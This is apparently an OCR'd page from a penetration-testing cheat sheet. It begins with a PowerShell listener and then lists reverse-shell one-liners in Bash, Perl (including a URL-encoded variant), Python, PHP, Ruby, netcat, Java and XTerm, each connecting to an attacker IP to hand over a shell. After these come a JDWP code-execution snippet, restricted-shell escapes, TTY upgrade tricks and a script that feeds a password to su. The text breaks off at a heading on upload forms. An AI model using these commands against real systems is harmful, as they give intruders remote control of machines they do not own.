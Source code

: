 # Start listener on port 443
$listener = [System.Net.Sockets.TcpListener]443; $listener.Start();
 
while($true)
{
    $client = $listener.AcceptTcpClient();
    Write-Host $client.client.RemoteEndPoint "connected!";
    $client.Close();
    start-sleep -seconds 1;
}
Gaining Access
Reverse Shell One-Liners
Bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
Perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
URL-Encoded Perl: Linux
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
Netcat without -e #1
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
Netcat without -e #2
nc localhost 443 | /bin/sh | nc localhost 444
telnet localhost 443 | /bin/sh | telnet localhost 444
Java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
XTerm
xterm -display 10.0.0.1:1
JDWP RCE
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
Working with Restricted Shells
# rare cases
ssh bill@localhost ls -l /tmp
nice /bin/bash
Interactive TTY Shells
/usr/bin/expect sh
python -c ‘import pty; pty.spawn(“/bin/sh”)’
# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
Uploading/POSTing Files Through WWW Upload Forms